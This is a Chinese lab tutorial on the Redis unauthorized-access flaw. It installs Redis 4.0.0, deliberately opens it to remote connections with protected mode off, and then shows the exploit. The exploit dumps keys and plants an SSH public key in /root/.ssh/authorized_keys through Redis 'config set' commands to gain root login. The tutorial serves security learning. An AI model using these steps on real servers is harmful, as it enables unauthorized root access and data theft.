# Redis未授权访问漏洞

总结：

bind 127.0.0.1 改为 bind 0.0.0.0

## 01)实验环境准备

| ip              | 描述                           |
| --------------- | ------------------------------ |
| 192.168.172.251 | 安装redis。使用c源码编译安装。 |
| 192.168.172.252 | 安装redis-cli的客户端          |




## 02)编译&安装redis

目标：

- 在Linux中安装Redis。

- 上传centos7上安装。




第一步：解压安装包，命令：

```shell
tar -zxvf redis-4.0.0.tar.gz -C /usr/local
```

查看解压的目录

```shell
cd /usr/local
```




第二步：安装Redis的依赖环境gcc，命令：

```shell
yum install gcc-c++
```









第三步：进入/usr/local/redis-4.0.0，进行编译，命令：

```shell
 cd /usr/local/redis-4.0.0
```



```shell
make
```






第四步：进入redis的src目录进行安装，命令：



```shell
make install
```

安装后重点文件说明：

| 路径                                    | 描述              |
| :-------------------------------------- | ----------------- |
| /usr/local/redis-4.0.0/src/redis-server | Redis服务启动脚本 |
| /usr/local/redis-4.0.0/src/redis-cli    | Redis客户端脚本   |
| /usr/local/redis-4.0.0/redis.conf       | Redis配置文件     |


如果目标系统存在未授权访问漏洞，则可以成功进行连接。输入info命令， 可以查看Redis服务的版本号、配置文件目录、进程ID号等，如下所示


- 编译中遇到的问题！




解决：

直接安装新的tcl,命令如下:

```shell
yum install -y tcl-devel
```

清空之前的make的缓存命令:

```shell
make distclean
```

重新make编译命令:

```shell
make
```

结束后重新测试命令:

```shell
make test
```

## 02)编译结果




- 移动到另外一个目录中取



```shell
cp /usr/local/redis-4.0.0/redis.conf ./redis/
cp /usr/local/redis-4.0.0/src/redis-cli ./redis/
cp /usr/local/redis-4.0.0/src/redis-server ./redis/
```




## 03)redis开启远程连接

```shell
# 允许任何主机连接、访问
bind 127.0.0.1 改为 bind 0.0.0.0
 
# 关闭保护模式
protected-mode yes 改为 protected-mode no
 
# 允许启动后在后台运行，即关闭命令行窗口后仍能运行
daemonize no 改为 daemonize yes
```

启动

```shell
redis-server ./redis.conf
```




## 04另外一台机子连接redis




## 05)漏洞利用

当与远程Redis建立好连接后，通过Redis指令就能查询所需要的敏感信息。 下面就Redis一些常用指令进行简单介绍：

查看key和其对应的值

```shell
keys *
```

获取用户名

```shell
get user
```




获取目标权限的常规利用方式


在本地主机生成密钥key的命令如下

```shell
 ssh-keygen -t rsa
```




在目录/root/.ssh下查看生成结果，并将公钥导入txt文件中，命令如下

```shell
>>> cd /root/.ssh
>>> ls
>>> (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
>>> cat /root/key.txt

```




将txt文件中的公钥导入Redis缓存中，命令如下:

```shell
cat /root/key.txt | redis-cli -h 192.168.172.251
```




连接到目标主机，更改配置文件路径为/root/.ssh，设定文件名称为 authorized-keys，代码如下

```shell
redis-cli -h 192.168.172.251
config set dir /root/.ssh
Config set dbfilename authorized_keys
save
```





执行这个命令前对方电脑也要有响应的/root/.ssh目录。







## 06)远程登入目标主机

通过SSH协议连接到远程目标主机，命令如下：

```shell
ssh 192.168.172.251
```

运行结果连接到目标主机，如下所示




